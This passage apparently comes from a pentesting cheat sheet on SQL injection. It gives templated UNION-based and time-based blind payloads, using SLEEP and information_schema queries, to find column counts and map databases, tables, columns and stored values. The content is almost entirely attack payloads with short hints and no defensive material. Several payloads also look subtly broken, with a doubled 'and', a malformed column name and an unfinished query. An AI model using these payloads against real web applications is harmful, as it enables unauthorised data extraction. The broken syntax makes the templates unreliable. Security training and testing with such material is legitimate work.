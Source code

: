 * &#x20;Handling value exceptions

{% hint style="warning" %}
If at any point of iteration, you find a value that you don't need, you must exclude it to restrict your injection
{% endhint %}

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and and tablename != $notobjective and $table_name LIKE 'a%';
```
{% endcode %}

{% hint style="info" %}
`$notobjective`refers to the value that we found, but we don't need it
{% endhint %}

### <mark style="color:red;">Time-Based</mark>

Make use of the time a response is generated to the request to determine if the query value was found or not. It is used when we don't get a visual return to the injection.

* Determining the number of columns

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time);
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),2;
#Try until the petition time is different
```
{% endcode %}

{% hint style="info" %}
The time of an error request is always less than a correct query
{% endhint %}

***

* Make a Boolean-based iterative process to map the DB, tables, and columns you need

{% code overflow="wrap" lineNumbers="true" %}
```sql
#Find DB name, table, and column by an iterative process using sleep
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),$found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name = 'table' and column_name LIKE '%';
#The values of each step are dictated by the time the response is sent
```
{% endcode %}

***

* Make a boolean-based iterative process to find the value you need

{% code overflow="wrap" lineNumbers="true" %}
```sql
#Find DB name, table, and column by an iterative process using sleep
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),$found FROM $table_found WHERE $column_found 
```
{% endcode %}
